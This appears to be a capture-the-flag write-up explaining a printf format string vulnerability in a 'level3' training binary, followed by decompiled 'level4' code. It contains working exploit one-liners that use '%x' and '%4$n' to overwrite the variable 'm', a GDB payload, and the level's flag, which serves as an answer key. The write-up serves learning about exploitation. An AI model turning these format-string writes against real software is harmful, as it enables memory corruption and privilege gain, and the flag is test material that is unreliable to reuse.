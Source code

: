 ## LEVEL3 - EXPLANATION & SOLUTION

Vulnerability: Format String in printf

The printf function is called with a user-controlled buffer without a proper format specifier. This creates a format string vulnerability, which allows arbitrary memory read/write operations.

1. Find the Address of `m`:

	- Use objdump to locate the symbol table and find the address of m:
	```bash
	objdump -t level3
	```

2. Inspect the Stack:

	- Use the `%x` format specifier to inspect the stack and identify the index of the writable memory location:
	```bash
	python -c 'print("\x8c\x98\x04\x08" + "%x " * 4)' | ./level3
	```

3. Write to the Address of m:

	- Use the `%<index>$n` format specifier to write directly to the memory address. This allows us to set the value of m to 0x40 (64 in decimal).
	- The value 0x40 is equivalent to 64 in decimal. Adjust the number of bytes printed to achieve this value.


4. Construct the Exploit:

	- Use padding to ensure the correct number of bytes are printed before writing to the memory:
	```bash
	(python -c 'print("\x8c\x98\x04\x08" + "%60x" + "%4$n")'; cat) | ./level3
	```
	- `\x8c\x98\x04\x08`: The address of m in little-endian format.
	- `%60x`: Pads the output to 60 bytes, ensuring m is set to 64 when written.
	- `%4$n`: Writes the current number of bytes printed to the 4th stack argument.

5. GDB:

	```python
	run <<< $(python -c 'print("\x8c\x98\x04\x08" + "A"*60 + "%4$n")')
	```

## LEVEL3 - FLAG

b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa

## LEVEL4 - BINARY ANALYSIS

```c
void main(void) {
	n();
	return;
}

void n(void) {
	char buffer[520];

	fgets(buffer, 512, stdin);
	p(buffer);

	if (m == 0x1025544) {
		system("/bin/cat /home/user/level5/.pass");
	}
	return;
```